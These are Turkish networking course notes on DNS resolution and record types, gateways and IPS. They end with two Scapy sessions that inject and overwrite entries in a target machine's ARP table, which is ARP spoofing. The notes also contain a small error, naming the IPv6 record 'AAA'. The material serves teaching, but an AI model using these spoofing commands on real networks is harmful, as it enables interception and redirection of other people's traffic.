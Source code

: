 **3.Gün  22.07.2018**

DNS, UDP’den ve TCP’den çalışabilir

Bir protocol bir katmanda olacak diye birşey yok birden fazla katmanda da yeralabilir.

Gateway: LAN (=Local Area Network) ağında ki diğer bilgisayarlarla iletişim için veri paketlerinin ağ (network) dışına çıkmasını sağlayan bir kapı gibi düşünülebilir.

Cloudflare'ın yeni DNS sunucusu 1.1.1.1

**DNS** nasıl çalışır: 

  - Browser öncelikle kendi lokal cache’inde ilgili adres için IP’nin bulunup bulunmadığına bakar. 
  - İstenen bilgi bulunamazsa bilgisayarda tanımlı olan DNS sunucuya (bu sunucu genellikle internet sağlayıcınızın -ISP- DNS adresi     olur) recursive olarak istek atılır. 
  - İstenen bilgi burada da bulunamaz ise bir üst sunucuya istekte bulunur. 
  - İstenen cevap zincirdeki sunucularda bulunamazsa kaydı tutan asıl sunucuya kadar gidiler, cevap bulunur ve dönülür.

DNS isteğine verilen cevapta TTL (time-to-live) olarak bulunur. 

TTL süresi DNS kaydının sahibi tarafından belirlenir.

DNS kayıt tipleri: **A**, **AAA**, **NS**, **CNAME**, **SRV**, **TXT**, **MX**

**A** kaydı en çok kullanılan ve bilinen IPv4 adresi dönen kayıt sorgusudur.

**AAA** kaydı IPv6 adresi dönen kayıt sorgusudur.

**NS**: Network üzerinde bulunan ve kullanım da olan DNS Serverları tanımlar.

**CNAME** kaydı: Farklı domain'leri tek bir domain'de birleştirmek için kullanılır. 

Örnek: linux․org.tr ve www․linux.org.tr gibi iki farklı adresi CNAME ile tek linux.org․tr'de birleştirilebilir.

CNAME'i aynı zamanda farklı bir domain'e yönlendirme amacı ile de kullanılabilir. 

**SRV** kaydı sunucu tarafından sunulan bir servisin adres, protokol ve port bilgisini döner.

**TXT** kayıtları özel amaçlı kayıtlardır. Genellikle spam e-posta gönderimlerini engellemek için oluşturulmuş kurallardan biri olan “SPF” kayıtlarını tanımlamak için kullanılır.

**MX** kaydı: Alan adına ait mail adreslerinin çalıştığı mail sunucularını adresleyen bir DNS kaydıdır.

DNS kayıtlarını sorgulamak için nslookup veya dig adlı programlar kullanılabilir.

**IPS** trafiğe ait paketleri inceler, uygulamalara yönelik zararlı paketleri raporlar ve ağ içerisine girişini engeller.

**OP Code** (Operation Code), işlem kodu, bilgisayar teknolojisinde makine dili komutunun, gerçekleştirilecek işlemi belirten kısmıdır.


**Scapy ile Karşı Makinenin ARP tablosuna IP eklemek için**:
```
$ scapy
>>> etherbaslik= Ether(dst="ff:ff:ff:ff:ff:ff",src=<"SRC_MAC_ADDR")
>>> arpbaslik=ARP(op=1,hwdst="<DEST_MAC_ADDR>",psrc="<DEFAULT_IP>",pdst="<TARGET_IP>",hwsrc="<SRC_MAC_ADDR>"
>>> paket = etherbaslik/arpbaslik
>>> sendp(paket,iface="eth0")
.
Sent 1 packets.
```

**Scapy ile Karşı Makine ARP tablosunda IP adresinin MAC adresini değiştirmek için**:

**NOT:** Karşı makinenin ARP tablosunda Kaynak IP adresinin tanımlı olması gerekir.

Bunun için; **ping -c 1 <DEST_IP>**
```
$scapy
>> etherbaslik=Ether(dst=<"DEST_MAC_ADDR">,src="31:31:30:30:30:31")
>>> arpbaslik=ARP(op=2,hwsrc="31:31:30:30:30:31",psrc=<"SRC_IP_ADDR">,pdst=<"DEST_IP_ADDR">)
>>> paket=etherbaslik/arpbaslik
>>> sendp(paket,iface="eth0")
.
Sent 1 packets.
```
